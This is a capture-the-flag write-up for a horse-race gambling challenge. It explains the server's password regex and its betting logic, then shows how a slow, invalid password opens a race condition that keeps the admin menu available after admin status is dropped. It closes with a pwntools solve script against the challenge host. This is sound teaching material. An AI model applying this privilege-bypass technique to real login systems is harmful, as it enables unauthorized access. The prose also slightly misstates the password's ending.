 # Off To The Races

> They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

We have the python sourcecode of a gambling server. I'll pick out the important stuff here:
```python
def menu():
    print("1) Place Bet")
    print("2) Login as Admin")
```
As a normal user, we can place a bet or log in. Users do not have limited amount of money, we can just bet anything on any horse.
```python
def admin_menu():
    print("1) Declare winner")
    print("2) View balance")
    print("3) Buy flag for $100")
    print("4) Logout")
```
As the admin, we can declare the winner of a race, show the balance (of the racing company), buy the flag and logout. Those are our options. 

```python
rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4')
```
Valid passwords are all those, that match this regex. For me it helped to write it down in multiple lines with intendations for a better readability. Passwords start with `ju5tn` (and `5` is the first matching group later refered to by `\1`. Then we have a character of the set `E3e` (group 4) followed by `v` and the same character again, because `\4` references the previously matched character. This 3-character-sequence is repeated a number of times. Then followes one time the sequence again (`\4\5`) and this combined part is repeated again several times. The password ends with `r105` and one time our favorite character again. `ju5tnEvEEvErl05E` is an example and it can be extended by adding more `EvE`in the middle.

```python
def flag():
    if admin.value:
        print("Admins aren't allowed to view the flag!")
        return
    if balance >= 100:
        print(open("flag.txt").read())
        exit(0)
    else:
        print("Insufficient balance!")
```
We get the flag if we are __not__ the admin, and we collected at least 100 money. The problem is, we can only call this as the admin user.
```python
def declareWinner():
    # [...shortened for clarity...]
    winner = choice(list(bets))
    print("%s is the big winner!"%winner)
    for i in bets:
        balance -= bets[i]*(-1+2*(winner==i))
    bets = {}
```
A winner is choosen randomly from the list of bets. The balance computation can be guessed what it does, but to be sure, let's dissect it:
`winner==i`is True (=1) for the winning horse, and False (=0) otherwise. So we get `balance -= bets[i]*1` for the winning horse (we (= the company) looses the money, otherwise `balance -= bets[i]*-1` equals `balance += bets[i]`, we win the money for losing horses.
### Winning Money
We designate one horse to loose and bet a lot of money on it. Additionally, we bet $0 on several other horses. The more horses we use, the higher are the chances for our designated horse to loose. (I used 10 horses giving me a chance of only 1/11 for my designated *LoosingHorse* to win, in which case I would simply restart the script.
(I realized from other Writeups after the contest: The better way to do this, would be betting the same amount `X` on 3 different horses. In this case, two of them loose, and one wins, so the total balance is `-2X + X = X`. No probability involved).
So, the easier part of the challenge is getting the money: Place bets, login as admin, declare a winner.
### Logging in
```python
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)

def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```
This is the login part. `checkPass` matches the password with the regex and sets `admin.value` accordingly.
The magic happens in `login`: With `Process`, a new subprocess is spawed that checks the password, while the main process sleeps for 2 seconds before returning (and prints the menu again). A new thread in a challenge about *races* .. is it far to think about *Race Conditions*? 
### The Race
We can only call `flag()` while inside the `admin_menu()`, but inside `flag()`, we need `admin.value = 0`  to get the flag. So we need to somehow change our admin state between starting `admin_menu()` and the check for `admin.value = 0`. We do this by slowing down the `checkPass()` function. This can be achieved by a long password that is eventually invalid. Regex are slow, especially if we have to match complex strings. The number of `EvE` inside the password needs to be adapted to th speed of the checking hardware. I used 30 times.

### Winning the Race
Let's look at the flow of both process during a normal logout and a slow one:
![Race1](race1.svg)
![Race2](race2.svg)
In both cases, we start logged in as the admin user and start a logout. The main process will wait 2 seconds for the `checkPass()` to complete, which sets `admin.value` back to 0 if we use an invalid password (Note that Logout calls `login()`). After the two seconds sleep, we get the user menu and cannot do anything useful.
In the second case, we provide an invalid but long password. In this case, the sleep terminates faster than the `checkPass` function. As a result, the main process sees us as the admin and calls the `admin_menu`. And we wait .. and wait .. and wait .. *until* `checkPass` failed to validate our password and sets `admin.value = 0`. *Now*, we can call *Buy flag* (because the admin menu is still present) and we will get the flag because `admin.value` is false.
### Putting everything together
1. Place some bets
2. Login with ju5tnEvEEvErl05E
3. Declare a winner
4. Logout with ju5tnEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvErl05X
5. We get the admin menu, but wait until the failure message is received
6. Buy the flag

```python
from pwn import *
import sys
import time

p = remote("chal.imaginaryctf.org", 42016)

""" Select option opt """
def menu(opt):
	global p
	p.recvuntil(">>>")
	p.sendline(str(opt))

""" place a bet for the horse (including menu handling) """
def placebet(horse, value):
	menu(1)
	p.sendline(horse)
	p.sendline(str(value))

# Bet on horses
placebet("LoosingHorse", 1000)
for i in range(10):
	placebet("WinningHorse"+str(i), 0)

# Lets login
menu(2)
p.sendline("ju5tnEvEEvErl05E")
# Declare winner
menu(1)
w = p.recvuntil("===").decode()
if "LoosingHorse" in w:
	print("Sorry, we had bad luck. Just rerun the program")
	sys.exit(1)

# We have a balance of 1000 now, because our LoosingHorse lost
menu(4) # logout
# Check this password.
# It takes a few seconds to validate and failes in the end
# (Note the trailing 'X')
p.sendline("ju5tn" + ("EvE" * 30) * 1 + "rl05X")
# We should wait here for the message indicating that the check failed, but ..
# .. we are lazy and just wait some time
time.sleep(10)
# Buy the flag
menu(3)
print(p.recvrepeat(timeout=2))
```
